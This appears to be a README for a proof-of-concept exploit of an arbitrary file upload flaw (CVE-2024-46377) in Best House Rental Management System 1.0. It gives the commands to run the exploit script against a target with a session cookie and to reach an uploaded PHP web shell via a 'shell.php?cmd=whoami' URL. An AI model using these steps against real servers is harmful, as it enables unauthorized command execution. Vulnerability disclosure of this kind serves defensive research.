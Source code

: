 # CVE-2024-46377

# PoC for Arbitrary File Upload Vulnerability in Best House Rental Management System 1.0

## Overview

This Python script demonstrates how to exploit the arbitrary file upload vulnerability in **Best House Rental Management System 1.0**. The vulnerability allows an attacker to upload a malicious file (such as a PHP web shell) and execute arbitrary commands on the target server.

### Usage

1. Clone the repository and navigate into the directory:

   ```bash
   git clone https://github.com/yourusername/house-rental-poc.git
   cd house-rental-poc
   ```

    Run the exploit with the following parameters:

    bash

     ``` python exploit_house_rental.py <target_url> <file_upload_path> <session_cookie>```

    target_url: The URL of the vulnerable file upload page (e.g., http://<target-site>/rental/admin_class.php?view=save_settings)
    file_upload_path: The path where the uploaded files are stored (e.g., http://<target-site>/path/to/uploaded/files)
    session_cookie: The session cookie of the authenticated user

If successful, you will be able to execute commands on the target server by visiting:

bash

    http://<file_upload_path>/shell.php?cmd=whoami

    Test it by executing commands such as whoami or uname -a.

Example

 ``` python exploit_house_rental.py http://127.0.0.1/rental/admin_class.php?view=save_settings http://127.0.0.1/uploads/ SESSION_ID=123456789```
  
This code is released under the MIT License.
